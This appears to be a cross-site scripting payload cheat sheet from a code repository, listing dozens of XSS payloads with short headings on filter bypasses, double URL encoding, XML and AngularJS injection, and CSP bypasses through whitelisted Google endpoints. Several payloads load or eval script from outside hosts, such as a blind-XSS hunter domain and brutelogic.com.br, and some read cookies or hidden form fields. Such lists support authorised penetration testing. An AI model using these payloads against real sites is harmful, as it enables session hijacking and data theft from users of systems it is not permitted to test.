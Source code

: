 Blind XSS payload XXShunter

```"><script src=https://a007.xss.ht></script>```

ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>```

 Where :// is required after protocol

```javascript://%250aalert(1)```

XSS in email addresses

```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```

 ```<body onpageshow=alert(1)>```

```<style onload=alert(1)>```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<d3"<"/onclick="1>[confirm``]"<">z```

```&lt;script&gt;confirm(1)&lt;/script&gt;```

GET Hidden Fields data

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS```

```<svg/x=">"/onload=confirm()//```

```<sCript x>(((confirm)))``</scRipt x>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<script/x>alert(1)</script/x>```

```"><!--<iMg sRc=--><img src=x oNERror=(prompt)`1` x>"```

```"><deTails oNToggle=confi\u0072m(1)>"```

Get response back to server

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

CSP bypass if http://ajax.googleapis.com is whitelisted

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>```

```<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>```

```<script src=data:,alert(1)>```


Angular JS XSS

```{{constructor.constructor('alert(1)')()}}```

```<x ng-app>{{constructor.constructor('alert(1)')()}} ```

Upper Case

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

 ```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```
 
```data:text/html,<svg onload=alert(1)>```
